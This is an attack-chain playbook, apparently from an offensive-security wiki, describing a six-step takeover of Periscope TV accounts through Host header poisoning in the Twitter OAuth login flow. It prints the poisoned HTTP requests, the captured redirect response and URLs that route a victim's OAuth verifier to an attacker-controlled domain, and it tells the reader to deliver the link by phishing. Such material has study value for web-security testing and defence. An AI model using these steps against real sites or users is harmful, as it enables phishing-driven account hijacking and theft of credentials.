

# Periscope TV Account Takeover via Host Header Poisoning in Twitter OAuth Flow

Multi-stage attack chain demonstrating host header poisoning in the Periscope TV Twitter OAuth login flow, enabling capture of OAuth tokens and verifiers for account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform with Periscope TV (https://www.periscope.tv/)
- Twitter OAuth integration
- Attacker-controlled domain (e.g., hackerone.com for testing)

### Initial Access Requirements

- No prior credentials needed
- Ability to intercept HTTP requests (e.g., via proxy)
- Victim must have a Periscope account linked or authorizable via Twitter

## Detailed Attack Procedures

### Step 1: Initiate Twitter Login on Periscope TV
procedure: [[procedures/Initiate-and-Poison-Host-Header-in-OAuth-Request]]

**Objective**: Start the OAuth flow and prepare for host header modification to poison the redirect URI.

**Instructions**: Visit https://www.periscope.tv/ and click 'Login with Twitter' to trigger the initial GET request to /i/twitter/login?csrf=... with Host: www.periscope.tv. Use [[commands/original-oauth-login-request]] to simulate:

```http
GET /i/twitter/login?csrf=████ HTTP/1.1
Host: www.periscope.tv
User-Agent: █████████
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.periscope.tv/
Cookie: ...
```

**Expected Output**: HTML response initiating the OAuth process.

**Success Indicators**:
- Request sent successfully
- CSRF token captured for next step

### Step 2: Intercept and Modify the Host Header
procedure: [[procedures/Initiate-and-Poison-Host-Header-in-OAuth-Request]]

**Objective**: Exploit unvalidated Host header to poison the OAuth callback domain.

**Instructions**: Intercept the request using a proxy and modify the Host header to an attacker-controlled domain prefixed with the original, e.g., 'hackerone.com/www.periscope.tv'. Replay with [[commands/poisoned-host-header-request]]:

```http
GET /i/twitter/login?csrf=██████ HTTP/1.1
Host: hackerone.com/www.periscope.tv
User-Agent: █████████
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.periscope.tv/
Cookie: ...
```

**Expected Output**: Server constructs redirect to attacker's domain.

**Success Indicators**:
- Modified request accepted
- Response contains poisoned redirect

### Step 3: Receive and Capture the OAuth Redirect Response
procedure: [[procedures/Capture-OAuth-Redirect-URL]]

**Objective**: Extract the Twitter OAuth authenticate URL from the poisoned response.

**Instructions**: Observe the response, which includes a meta refresh to https://twitter.com/oauth/authenticate?oauth_token=.... Record this URL using details from [[commands/oauth-redirect-response]]:

```html
<!DOCTYPE html><html><head><meta http-equiv="refresh" content="0;https://twitter.com/oauth/authenticate?oauth_token=████████"></head></html>
```

**Expected Output**: Captured OAuth URL with token.

**Success Indicators**:
- URL recorded without following redirect
- Token visible in URL

### Step 4: Send the Captured OAuth URL to the Victim
procedure: [[procedures/Send-OAuth-URL-to-Victim-for-Authorization]]

**Objective**: Trick the victim into authorizing the app, directing tokens to attacker's domain.

**Instructions**: Deliver the captured URL to the victim via phishing or direct link. Victim visits and authorizes Periscope app with Twitter credentials.

**Expected Output**: Victim redirected post-authorization.

**Success Indicators**:
- Victim accesses URL
- Authorization prompt appears

### Step 5: Capture Tokens from Victim's Authorization Redirect
procedure: [[procedures/Capture-OAuth-Tokens-from-Victim-Redirect]]

**Objective**: Intercept the redirect containing OAuth token and verifier sent to attacker's domain.

**Instructions**: Monitor attacker's domain for the redirect: https://attacker.com/www.periscope.tv/i/twitter/loginComplete?oauth_token=[token]&oauth_verifier=[verifier]. Capture using [[commands/victim-redirect-url]]:

```http
https://www.example.com/www.periscope.tv/i/twitter/loginComplete?oauth_token=[attacker's oauth token]&oauth_verifier=[victim's oauth verifier]
```

**Expected Output**: Tokens received on attacker's server.

**Success Indicators**:
- Token and verifier captured
- No errors in redirect

### Step 6: Attacker Completes the Login Using Captured Tokens
procedure: [[procedures/Complete-Account-Takeover-with-Captured-Tokens]]

**Objective**: Use captured tokens to link and takeover the victim's Periscope account.

**Instructions**: Visit /i/twitter/loginComplete?oauth_token=[token]&oauth_verifier=[verifier] on www.periscope.tv with [[commands/attacker-completion-request]]:

```http
www.periscope.tv/i/twitter/loginComplete?oauth_token=[attacker's oauth token]&oauth_verifier=[victim's oauth verifier]
```

**Expected Output**: Successful login and account access.

**Success Indicators**:
- Account linked to attacker's session
- Victim's Periscope data accessible

## Attack Chain Summary

### Key Achievements

1. Poisoned OAuth redirect to capture tokens
2. Bypassed normal auth flow via host injection
3. Full account takeover without direct credentials

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Valid Accounts]]
- [[Application Access Token]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Credential Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
